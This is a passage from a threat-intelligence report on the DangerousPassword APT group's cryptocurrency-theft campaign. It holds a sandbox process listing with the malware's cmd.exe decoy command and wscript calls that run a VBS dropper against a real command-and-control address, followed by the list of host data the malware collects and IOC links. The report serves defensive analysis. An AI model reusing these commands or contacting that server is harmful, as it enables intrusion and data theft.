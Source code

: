```
2044	1	"C:\Windows\system32\Dwm.exe"
372	1	C:\Windows\Explorer.EXE
652	1	C:\Windows\System32\ctfmon.exe 
1120	0	SearchIndexer.exe
1932	1	"windanr.exe"
2736	1	"C:\Program Files\WinRAR\WinRAR.exe" "C:\Users\admin\AppData\Local\Temp\3249e2eb1eaa628dcf7c83062463bc6bad36515b130e760333da98ea8ffd362e.rar"
1720	1	"C:\Windows\System32\cmd.exe" /C "ECHO risk2020>C:\Users\admin\AppData\Local\Temp\Password.txt&NOTEPAD.EXE C:\Users\admin\AppData\Local\Temp\Password.txt&DEL C:\Users\admin\AppData\Local\Temp\Password.txt"
3020	1	\??\C:\Windows\system32\conhost.exe "1233334231726783925-1766655123-1154929739-1178529684175521206-10630235841853906928
680	1	NOTEPAD.EXE  C:\Users\admin\AppData\Local\Temp\Password.txt
588	0	WmiPrvSE.exe
3292	1	wscript  "C:\Users\admin\AppData\Local\Temp\iilbat.vbs" 88.204.166.59:8080/edit 1 
3284	1	wscript  "C:\Users\admin\AppData\Local\Temp\iilbat.vbs" 88.204.166.59:8080/edit 2 
```

<h6>According with the analysis of the Japanese CERT (June 2019), the list is the same :</h6>
<ul>
    <li><h6>Username</h6></li>
    <li><h6>Hostname</h6></li>
    <li><h6>OS version</h6></li>
    <li><h6>OS install date</h6></li>
    <li><h6>OS runtime</h6></li>
    <li><h6>Timezone</h6></li>
    <li><h6>CPU name</h6></li>
    <li><h6>Execution path of vbs file</h6></li>
    <li><h6>Network adapter information</h6></li>
    <li><h6>List of running processes</h6></li>
</ul>

<h6>On the opendir, like the last observations on the group, legit VNC binaries can be found, this indicates that the group have kept the same TTPs for the extraction of the data. This high probable that the group do manual actions for reduce the security measures and execute the tools for obtain the data on the crypto-occurencies.</h6>

<h6>China doesn't recognize cryptocurrencies as legal tender and the banking system isn't accepting cryptocurrencies or providing relevant services for trading in place since September 2017. The Chinese government has recently promoted a law facilitating the transition to the exchange of a virtual currency led by the state, this change explained why since the campaign of January, China is now in the focus of the Asian countries targeted by the group (the announcement also caused an increase in bitcoins and these derivative currencies). The TTPs of the group are the same since mid 2019 and rest focus on the steal of the crypto-occurencies.</h6>

<h2> Cyber kill chain <a name="Cyber-kill-chain"></a></h2>
<h6>This process graph represent the cyber kill chain used by the attacker.</h6>
<p align="center">
  <img src="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/offshore%20APT%20organization/DangerousPassword/2020-04-02/Pictures/killchain.png">
</p>
<h2> Indicators Of Compromise (IOC) <a name="IOC"></a></h2>
<h6> The IOC can be exported in <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/offshore%20APT%20organization/DangerousPassword/2020-04-02/JSON/IOC_DangerousPassword_2020-04_02.json">JSON</a> and <a href="https://github.com/StrangerealIntel/CyberThreatIntel/blob/master/offshore%20APT%20organization/DangerousPassword/2020-04-02/CSV/IOC_DangerousPassword_2020-04_02.csv">CSV</a></h6>
